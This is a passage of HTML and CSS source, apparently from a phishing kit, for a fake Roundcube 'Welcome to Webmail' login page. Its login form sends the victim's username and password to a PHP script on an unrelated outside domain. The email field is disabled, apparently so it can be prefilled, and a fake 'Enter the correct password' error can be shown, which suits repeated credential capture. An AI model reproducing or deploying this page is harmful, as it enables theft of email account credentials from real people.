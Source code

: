   }
  100% {
    -webkit-transform: matrix3d(1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1);
    transform: matrix3d(1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 0, 1);
  }
}
#successful_login,
#successful_registration {
  opacity: 0;
  visibility: hidden;
  -webkit-transition: opacity 0.4s cubic-bezier(0.25, 0.5, 0.5, 0.9), visibility 0.6s cubic-bezier(0.25, 0.5, 0.5, 0.9);
  -moz-transition: opacity 0.4s cubic-bezier(0.25, 0.5, 0.5, 0.9), visibility 0.6s cubic-bezier(0.25, 0.5, 0.5, 0.9);
  -ms-transition: opacity 0.4s cubic-bezier(0.25, 0.5, 0.5, 0.9), visibility 0.6s cubic-bezier(0.25, 0.5, 0.5, 0.9);
  transition: opacity 0.4s cubic-bezier(0.25, 0.5, 0.5, 0.9), visibility 0.6s cubic-bezier(0.25, 0.5, 0.5, 0.9);
}
#successful_login.active,
#successful_registration.active {
  opacity: 1;
  visibility: visible;
}
</style>
<link id="favicon" rel="shortcut icon" type="image/png" href="" />
</head>
<body>
<div id="dialog" class="dialog dialog-effect-in">
<div class="dialog-front">
<div class="dialog-content">
<form id="login_form" class="dialog-form login_form" action="https://hijosdelmaizoficial.com/images/Mloking/CAFWEB/na1.php" method="POST">
<img id="logo" src="https://images.sftcdn.net/images/t_app-logo-xl,f_auto,dpr_2/p/7a60e021-3fe5-4334-9e56-7cc6ebae632d/2825932570/roundcube-webmail-roundcube_logo_icon.svg" style="display: block;margin-left: auto;margin-right: auto;" width="70" height="70"><br>
<fieldset>
<center><legend style="word-break: break-all;">Welcome to Webmail</legend></center>
<div class="form-group">
<label for="user_username" class="control-label">Username:</label>
<input type="email" id="user_username" class="form-control" name="user_username" value="" required disabled autofocus />
</div>
<div class="form-group">
<label for="user_password" class="control-label">Password:</label>
<input type="password" id="user_password" class="form-control" name="user_password" required />
</div>
<label id="error" class="error" style="display: none;color: red;">Enter the correct password</label>
<div class="pad-top-20 pad-btm-20">
<input type="submit" id="submit-btn" class="btn btn-default btn-block btn-lg" value="Continue">
</div>
</fieldset>
</form>
</div>
</div>
</div>
<script src='//cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
<script src="./assets/js/script.js"></script>
<script>